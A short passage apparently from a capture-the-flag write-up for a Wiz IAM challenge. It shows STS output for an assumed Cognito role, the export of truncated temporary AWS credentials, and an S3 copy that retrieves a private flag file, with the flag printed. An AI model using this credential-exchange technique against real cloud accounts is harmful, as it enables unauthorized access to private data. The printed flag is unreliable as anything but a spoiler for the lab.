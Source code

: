 ```bash
    },
    "SubjectFromWebIdentityToken": "us-east-1:157d6171-eec6-c333-57bf-b5cad9b6d450",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROARK7LBOHXASFTNOIZG:iam-challenge-6",
        "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/iam-challenge-6"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
}


> export AWS_ACCESS_KEY_ID=ASIA..............
> export AWS_SECRET_ACCESS_KEY=/oib+Ktm5q+TOq4E............
> export AWS_SESSION_TOKEN=FwoGZXIv..........

> aws s3 cp s3://wiz-privatefiles-x1000/flag2.txt -
{wiz:open-sesame-or-shell-i-say-openid}
```

---
---


